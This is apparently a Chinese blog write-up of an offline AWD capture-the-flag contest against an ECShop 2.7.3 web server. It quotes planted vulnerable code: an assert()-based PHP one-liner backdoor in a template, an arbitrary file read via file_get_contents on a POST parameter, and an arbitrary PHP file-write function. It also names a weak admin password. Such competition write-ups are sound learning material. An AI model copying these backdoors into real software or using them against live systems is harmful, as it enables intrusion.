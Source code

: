 ```yaml
---
layout: post
title: 线下AWD被打指南
subtitle: 
author: Coink
date: 2018-05-02
categories:
tag:
- Tech
---
```




# 概

前几天跑去玩了玩安恒的线下AWD，被很多大佬吊打（物理）。

![9150e4e5ly1fmkyfg8tn1j203a03cdfm.jpg](https://i.loli.net/2018/05/05/5aed3d47ee247.jpg)

简单分析一下本次AWD的内容，顺便总结一下AWD要注意的一些事项。这次是比较基础的AWD，没有pwn，只有Web。

# Start

比赛开始拿到自己机器，不是root权限，写文件有限制。Web服务是ECShop V2.7.3，AngelSword里查了一下，发现两个漏洞，但是都没有成功复现：

![poc.png](https://i.loli.net/2018/05/05/5aed16e2be14f.png)

己方服务器ip是10.50.20.2，推测出所有靶机地址，10.50.[1-37].2，10.50.0.2可能为NPC机。

提交和获取Flag都需要带上团队Token：

```url
//获取flag
http://10.0.1.2?token=XXXXXXXX
```

```url
//提交flag
https://192.168.37.180/match/WAR20/oapi?atn=answers&token=XXXXXXXX&flag=flag{}
```

赶紧把var/www/html拷贝了一份到本地，（由于经验不足，没有想办法备份数据库，导致后面的惨剧 ，嘤）同时打开D盾扫Shell，主办方的shell藏得挺好的，D盾扫不到。

waf装上去之后服务瞬间爆炸，赶紧恢复备份，还好check是从20分钟开始的，没有被扣分。

本次比赛时间很紧，总共只有3h。前半个多小时大家和平发育，除了几个队伍可能自己玩坏了自己服务，或者战略关闭服务器之外，没有任何一支队伍成功攻击。

# php一句话

40分钟时，主办方给出第一个提示：

![tip1.png](https://i.loli.net/2018/05/05/5aed1c57651ca.png)

dwt是未渲染的模板文件，跟进发现：

```html
<div class="con">{:assert($_POST[1])}
...
</div>
```

删掉即可。

# 文件读取

1h多时主办方直接在tips里给了exp...

![exp1.png](https://i.loli.net/2018/05/05/5aed3b5f2109b.png)

定位:

![sr32.png](https://i.loli.net/2018/05/05/5aed3b8488af7.png)

```php
switch ($row['media_type']) {
	//...
	case 4: // url
		$ads[] = file_get_contents($_POST['url']);
}
```

发现任意文件读取，因为参数本身就是url，且不清楚check的规则是什么，暂且直接删掉。



# new exp

距离上次exp不到10分钟，又给了一个攻击流量，漏洞就是第一个放出来的auction_list模板内的一句话。

![exp.png](https://i.loli.net/2018/05/05/5aed3dd28672b.png)

删掉那句后门就行了。



# 文件写入

新提示

![write.png](https://i.loli.net/2018/05/05/5aed3ef499a3b.png)

之前在AngelSword见到了uc的注入，但是不是mobile下的，对比mobile下和api下的uc.php：

![sp180505_132349.png](https://i.loli.net/2018/05/05/5aed3ff377dcc.png)

发现多了一个writesth函数：

```php
function writesth($get, $post){
    $cachefile = $this->appdir .$get['name'];
    $fp = fopen($cachefile, 'w');
    $s = "<?php\r\n";
    $s .= $get['content'];
    fwrite($fp, $s);
    fclose($fp);
    return API_RETURN_SUCCEED;
}
```

name和content均可控，直接写入即可，注意写入权限。

# 惨遭删库

最后一小时主办方给出最后一个提示

![sp180505_133044.png](https://i.loli.net/2018/05/05/5aed418e963cd.png)

但是这时候我们发现自己的网站凉了...

![惨遭删库.png](https://i.loli.net/2018/05/05/5aed4219cf905.png)

心里咯噔一下，数据库炸了？检查一下数据库发现...给人删库了...没备份数据库...naive了呀...目测是排名跟我们相近的队伍发现了SQL注入，把做了防御，他们队拿不到分的机器给炸了，一方面减缓高分队伍得分速度，另一方面让我们每5分钟扣100分。当时真的是想掏个emp啥的出来来一发无差别攻击...

现在回想起来，如果当时是有权限删除data目录文件的话，删掉lock文件，就可以重新安装cms，或者找到structure.sql也能恢复数据库了，当时手忙脚乱的没反应过来，果然还是太菜...

BTW，看了@一叶飘零 的wp，得知弱口令是admin888，发现我们字典里刚好没有...

复现环境之后再找找其他洞，找到会更新。
